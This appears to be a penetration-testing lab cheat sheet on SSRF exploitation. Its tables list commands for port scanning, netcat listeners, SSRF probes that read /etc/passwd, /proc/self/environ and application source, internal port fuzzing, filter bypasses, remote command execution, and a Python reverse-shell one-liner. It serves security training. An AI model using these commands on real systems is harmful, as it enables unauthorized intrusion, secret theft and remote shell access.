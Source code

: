 ## SSRF Exploitation Example

|**Command**|**Description**|
|---|---|
|`nmap -sT -T5 --min-rate=10000 -p- 10.129.201.238`|Scanning the ports of the external target|
|`curl -i -s -L http://<TARGET IP>`|Interacting with the target and following redirects|
|`nc -lvnp 8080`|Starting a netcat listener to test for SSRF|
|`curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:8080"`|Testing for SSRF vulnerability|
|`python3 -m http.server 9090`|Starting the python web server|
|`sudo pip3 install twisted`|Installing the ftp server|
|`sudo python3 -m twisted ftp -p 21 -r .`|Starting the ftp server|
|`curl -i -s "http://<TARGET IP>/load?q=http://<VPN/TUN Adapter IP>:9090/index.html"`|Retrieving a remote file through the target application (HTTP Schema)|
|`curl -i -s "http://<TARGET IP>/load?q=file:///etc/passwd"`|Retrieving a local file through the target application (File Schema)|
|`for port in {1..65535};do echo $port >> ports.txt;done`|Generating a wordlist of possible ports|
|`ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30`|Fuzzing for ports on the internal interface|
|`curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:5000"`|Interacting with the internal interface on the discovered port|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"`|Interacting with the internal application|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http://127.0.0.1:1"`|Discovering web application listening in on localhost|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:1"`|Modifying the URL to bypass the error message|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -`|Requesting to disclose the /proc/self/environ file on the internal application|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"`|Retrieving a local file through the target application|
|`curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"`|Confirming remote code exeuction on the remote host|
|`sudo apt-get install jq`|Installing jq|

## Blind SSRF Exploitation Example

|**Command**|**Description**|
|---|---|
|`nc -lvnp 9090`|Starting a netcat listener|
|`echo """<B64 encoded response>""" \| base64 -d`|Decoding the base64 encoded response|
|`export RHOST="<VPN/TUN IP>";export RPORT="<PORT>";python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`|